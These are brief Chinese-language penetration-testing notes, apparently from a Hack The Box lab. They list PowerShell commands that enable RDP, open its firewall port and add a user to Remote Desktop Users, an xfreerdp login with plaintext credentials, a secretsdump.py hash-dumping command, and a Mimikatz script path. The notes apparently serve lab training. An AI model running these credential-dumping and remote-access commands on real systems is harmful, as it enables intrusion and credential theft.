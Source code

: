 # RDP

#### 1. 启用 RDP 服务
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

----

#### 2. 放行防火墙中的 RDP 端口（3389）
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

----

#### 3.  确认 RDP 服务已经启用
Get-Service -Name TermService

----

#### 4. 添加用户到 Remote Desktop Users 组
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "riley"

----

xfreerdp /u:riley /p:P@ssw0rd /d:painters.htb /v:192.168.110.56 /cert:ignore

----

# Hash Dump

secretsdump.py painters.htb/web_svc:'!QAZ1qaz'@192.168.110.52

`/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1`

